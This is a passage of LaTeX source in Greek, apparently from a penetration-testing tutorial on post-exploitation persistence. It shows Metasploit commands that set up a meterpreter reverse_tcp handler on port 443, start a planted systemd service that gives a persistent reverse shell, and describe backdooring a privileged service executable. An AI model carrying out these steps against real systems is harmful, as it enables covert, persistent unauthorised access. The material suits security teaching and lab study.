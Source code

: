 \documentclass[12pt]{report}
\begin{document}
Θα ανοίξουμε τώρα σε ένα άλλο τοπικό \textlatin{shell} το \textlatin{msfconsole} και θα ενεργοποιήσουμε τον \textlatin{multi-handler} στη πόρτα 443.
\begin{scriptsize}
\begin{verbatim}
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.232.1
LHOST => 192.168.232.1
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit
\end{verbatim}
\end{scriptsize}
Επιστρέφουμε στο \textlatin{remote shell} και 'σηκώνουμε' το \textlatin{service}.
\begin{scriptsize}
\begin{verbatim}
systemctl start multiple-user
\end{verbatim}
\end{scriptsize}
Μπορούμε τώρα να κλείσουμε το αρχικό \textlatin{remote shell}, καθώς έχουμε μόνιμο \textlatin{reverse meterpreter shell}...

Στις περισσότερες περιπτώσεις επιθυμούμε να αφήσουμε πίσω μας εναλλακτικές \textlatin{su backdoor}, σε περίπτωση που ανακαλυφθει το \textlatin{reverse shell} ή παίρνουμε πρόσβαση μόνο σε \textlatin{non-elevated shell}. Μπορούμε να το επιτύχουμε αυτό με τους παρακάτω τρόπους:

\paragraph{Ενσωμάτωση του \textlatin{reverse meterpreter shell} σε ένα εκτελέσιμο}
Στην περίπτωση αυτή χρησιμοποιούμε ένα υπάρχον \textlatin{service}, το οποίο τρέχει με αυξημένα δικαιώματα και τροποποιούμε το εκτελέσιμο, ώστε να δημιουργεί παράλληλα με τη λειτουργία του και ένα \textlatin{thread} ή \textlatin{process} για το \textlatin{reverse meterpreter shell}.
\end{document}
